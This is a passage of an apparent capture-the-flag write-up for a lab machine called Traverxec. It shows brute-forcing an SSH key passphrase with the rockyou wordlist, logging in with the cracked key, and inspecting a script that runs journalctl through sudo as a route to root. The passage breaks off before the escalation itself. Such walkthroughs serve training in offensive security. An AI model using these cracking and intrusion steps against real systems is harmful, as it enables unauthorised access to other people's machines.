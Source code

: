 
```
❯ bash mm_id_rsa_bruteforce/mm_id_rsa_bruteforce.sh rockyou.txt id_rsa
I'm testing these passwords: rockyou.txt Against this key file: id_rsa
****************
*Found password: hunter
****************
```
Now that we have the passphrase for the key, we can try access the machine with our
ssh key.
```
❯ ssh david@10.10.10.165 -i id_rsa
Enter passphrase for key 'id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Fri Apr 10 11:14:59 2020 from 10.10.14.14
david@traverxec:~$
```
Listing the files on the home directory we find our first flag user.txt, and a directory called bin (that seems interesting).
```
david@traverxec:~$ ls -l
total 12
drwx------ 2 david david 4096 Apr  9 17:15 bin
drwxr-xr-x 3 david david 4096 Oct 25 15:45 public_www
-r--r----- 1 root  david   33 Oct 25 16:14 user.txt
```
## Getting root ##

That bin directory has 2 files on them.
```
david@traverxec:~/bin$ ls -la
total 16
drwx------ 2 david david 4096 Apr  9 17:15 .
drwx--x--x 6 david david 4096 Apr  9 17:47 ..
-r-------- 1 david david  802 Oct 25 16:26 server-stats.head
-rwx------ 1 david david  363 Oct 25 16:26 server-stats.sh
```
Examining file server-stats.head does not reveal anything of interest.
```
david@traverxec:~/bin$ cat server-stats.head
                                                                          .----.
                                                              .---------. | == |
   Webserver Statistics and Data                              |.-"""""-.| |----|
         Collection Script                                    ||       || | == |
          (c) David, 2019                                     ||       || |----|
                                                              |'-.....-'| |::::|
                                                              '"")---(""' |___.|
                                                             /:::::::::::\"    "
                                                            /:::=======:::\
                                                        jgs '"""""""""""""'

```
The file server-stats.sh however shows something interesting ...
```
david@traverxec:~/bin$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```